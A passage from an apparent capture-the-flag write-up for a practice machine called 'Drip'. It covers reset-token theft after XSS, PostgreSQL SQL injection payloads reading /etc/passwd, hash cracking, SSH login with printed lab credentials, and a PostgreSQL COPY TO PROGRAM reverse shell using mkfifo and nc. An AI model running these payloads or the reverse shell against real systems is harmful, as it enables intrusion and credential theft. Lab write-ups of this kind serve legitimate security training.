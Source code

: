 ## 3. Collect Password Reset Token and Access Dashboard
### Reading Emails
Fetch sensitive emails (`_uid` param controls message).

After exploiting XSS, extract reset tokens from password reset emails.

Add the internal dashboard domain and reset bcase password:
```bash
echo "10.10.11.54 dev-a3f1-01.drip.htb" | sudo tee -a /etc/hosts
```
Update bcase’s password via read reset token URL.

Log into dashboard at `http://dev-a3f1-01.drip.htb/`.

## 4. SQL Injection in Analytics Portal — Extract Linux Credentials
### Exploit SQL Injection
On the dashboard’s `/analytics` page, a search parameter is injectable.

Use SQLi payloads to extract files:
```sql
' UNION SELECT pg_read_file('/etc/passwd', 0, 2000) --
' UNION SELECT pg_read_file('/etc/hosts', 0, 2000) --
```
Extract Linux user hashes and other files.

Extracted PostgreSQL log file reveals user `ebelford`’s MD5 hash:
```
8bbd7f88841b4223ae63c8848969be86
```
Crack hash online (CrackStation or similar) to get password `ThePlague61780`.

## 5. SSH to Linux Machine as User ebelford
```bash
sshpass -p'ThePlague61780' ssh -o StrictHostKeyChecking=no ebelford@drip.htb
```

## 6. Privilege Escalation on Linux to PostgreSQL User
Locate Dashboard `.env` containing DB creds:
```bash
cat /var/www/html/dashboard/.env
# Contains: DB_USERNAME=dripmail_dba, DB_PASS=2Qa2SsBkQvsc
```
Reverse Shell via PostgreSQL:
```bash
rlwrap nc -lnvp 4242
PGPASSWORD=2Qa2SsBkQvsc psql -h localhost -U dripmail_dba -d dripmail -c "COPY (SELECT '') TO PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <YourIP> 4242 >/tmp/f'"
```
Add SSH key and login as postgres:
```bash
mkdir -p ~/.ssh && echo "ssh-ed25519 AAAA...user-key..." > ~/.ssh/authorized_keys
ssh postgres@drip.htb
```
